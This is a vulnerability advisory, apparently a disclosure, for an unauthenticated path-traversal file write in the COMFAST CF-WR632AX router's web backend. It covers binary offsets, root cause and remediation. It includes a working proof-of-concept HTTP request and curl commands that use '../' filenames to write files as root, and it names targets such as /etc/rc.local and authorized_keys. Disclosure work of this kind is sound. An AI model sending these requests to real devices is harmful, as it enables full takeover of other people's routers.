


# COMFAST CF-WR632AX Wi-Fi 6 Router

- Vendor：COMFAST (Shenzhen Sihai Zhonglian Network Technology Co., Ltd)
- Product：CF-WR632AX
- Product Model：CF-WR632AX V2
- Firmware Version：V2.6.0.1
- Vulnerability Type：Unauthenticated Path Traversal / Arbitrary File Write (CWE-22 / CWE-434 / CWE-862)

# Description

The COMFAST CF-WR632AX Wi-Fi 6 Router (firmware version V2.6.0.1) contains an **unauthenticated path traversal arbitrary file write vulnerability** in the web management backend `/usr/bin/webmgnt`. When processing `multipart/form-data` file upload requests sent to `/cgi-bin/mbox-config?method=SET&section=system_upload_file`, the multipart parser **runs before any authentication/session check**. The `filename` parameter extracted from the `Content-Disposition` header is validated only by a substring whitelist of image extensions (`.png` / `.jpg` / `.jpeg`), while path separators (`/`) and parent-directory references (`..`) are **not filtered at all**, and no path normalization is performed. The filename is then concatenated directly into the target path via `sprintf("%s/%s", "/tmp/img", filename)` and created with `open(O_WRONLY|O_CREAT|O_TRUNC, 0777)`, with the POST body written verbatim.

An unauthenticated remote attacker can therefore write arbitrary content to arbitrary filesystem paths with **root (uid=0)** privileges — e.g., `/etc/rc.local`, `/etc/crontabs/root`, or dropbear `authorized_keys` — leading to remote code execution and full device compromise.

Notably, the HTTP response returns `{"errCode":-32002,"errMsg":"Access denied"}` for unauthenticated requests, **but the file is written to disk anyway** — proving that the file write occurs before the authentication check.

# Impact

An unauthenticated attacker on the network (LAN by default; WAN if remote management is enabled) can write arbitrary files as **root**, leading to:

- **Remote code execution and persistence** — overwriting `/etc/rc.local`, `/etc/crontabs/root`, init scripts, or installing an SSH key into dropbear's `authorized_keys`;
- **Configuration tampering** — overwriting UCI configuration under `/etc/config/` to enable remote management, weaken firewall rules, or disable security features;
- **Full device takeover** — combined with the fact that the web management service and nginx workers all run as root, no further privilege escalation is required.

# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in the web management backend binary `/usr/bin/webmgnt` (ELF 64-bit AArch64, non-PIE, running as **root**), a FastCGI service behind nginx which forwards all `/cgi-bin/*` requests to it.

**Taint source** — the multipart parser (function at offset `0x406e78` in `webmgnt`, firmware V2.6.0.1):

- Invoked for all `section=system_upload_*` requests by the main dispatcher (`0x408100`), **before** any session/authentication verification;
- Extracts the `filename` value from the `Content-Disposition` header (`0x406fe0`) into a global buffer (length accepted up to ~0x3ff bytes);
- Validates the filename only by checking for image-extension substrings via `strstr` (`.png`/`.PNG`/`.jpg`/`.JPG`/`.jpeg`/`.JPEG`) at `0x40701c-0x4070a0` — **no filtering of `/`, `..`, and no path canonicalization**.

**Taint sink** — path construction and file write:

- `0x4070c4`: `sprintf(path, "%s/%s", "/tmp/img", filename)` — attacker-controlled input concatenated verbatim into the target path;
- `0x407310`: `open(path, O_WRONLY|O_CREAT|O_TRUNC, 0777)`;
- `0x407338-0x407430`: the POST body is written to the file (trailing multipart boundary stripped).

**Exploitation constraints (verified):**

| Constraint | Verified result |
|---|---|
| Authentication | **None required** — response returns `-32002 Access denied`, yet the file is written |
| Filename must contain | An image-extension substring (e.g. `.png`) anywhere in the name |
| Path traversal | `../` sequences fully functional; any absolute-reachable directory writable |
| Written file ownership / mode | `root:root`, `-rwxr-xr-x` (0755) |
| Content control | Full — POST body written verbatim |
| Filename length | Up to ~966 bytes effective per request line |

## 2. Authentication Prerequisite

**None.** The multipart parser executes prior to the authentication logic in the dispatcher. Evidence observed during testing:

1. Without any session cookie, the request returns `{"errCode":-32002,"errMsg":"Access denied"}`;
2. Despite the access-denied response, the uploaded file **already exists on the filesystem** with the attacker's content — the write completed before the rejection.

This makes the vulnerability exploitable by any unauthenticated network attacker who can reach the management interface.

## 3. Proof of Concept

### Step 1 — Craft the payload file

```bash
echo "iotsecNB1 - arbitrary file write PoC" > payload.png
```

### Step 2 — Send the malicious upload request (no credentials)

```http
POST /cgi-bin/mbox-config?method=SET&section=system_upload_file HTTP/1.1
Host: 192.168.10.1
Content-Type: multipart/form-data; boundary=----poc
Content-Length: <len>
Connection: close

------poc
Content-Disposition: form-data; name="file"; filename="../../tmp/iotsecNB1.png"
Content-Type: image/png

iotsecNB1 - arbitrary file write PoC
------poc--
```

curl equivalent:

```bash
curl -X POST "http://192.168.10.1/cgi-bin/mbox-config?method=SET&section=system_upload_file" \
  -F "file=@payload.png;filename=../../tmp/iotsecNB1.png;type=image/png"
```

Observed response:

```json
{"errCode":-32002,"errMsg":"Access denied","configDone":false}
```




### Step 3 — Verify the file was written outside `/tmp/img/`

On the device filesystem:

```
-rwxr-xr-x 1 root root 93 /tmp/iotsecNB1.png
# content: iotsecNB1 - arbitrary file write PoC
```

### Step 4 — Escalation: write into the configuration area

```bash
curl -X POST "http://192.168.10.1/cgi-bin/mbox-config?method=SET&section=system_upload_file" \
  -F "file=@payload.png;filename=../../etc/iotsecNB1.png;type=image/png"
```

Verified result:

```
-rwxr-xr-x 1 root root 93 /etc/iotsecNB1.png
```

Writing to `/etc/` confirms that configuration files, startup scripts, cron tables and SSH `authorized_keys` are all within reach of this primitive, enabling straightforward escalation to remote code execution with root privileges.



## 4. Root Cause Summary

1. The multipart upload parser for `system_upload_*` actions runs **before** authentication; failed authentication does not abort the already-performed file write;
2. The `filename` parameter is validated only by an image-extension substring check; `/` and `..` are accepted, and no path canonicalization is applied;
3. The unsanitized filename is concatenated into `/tmp/img/%s` and opened with `O_CREAT|O_TRUNC, 0777` by a process running as root.

## 5. Remediation

- Perform session authentication **before** any multipart parsing or file write, and terminate request processing immediately on authentication failure;
- Canonicalize the filename and reject names containing `/`, `\` or `..`; verify with `realpath()` that the final path resides inside the designated upload directory;
- Run the web management backend with reduced privileges and mount the upload directory `noexec`;
- Replace substring-based extension checks with strict suffix matching plus magic-byte validation of the file content.

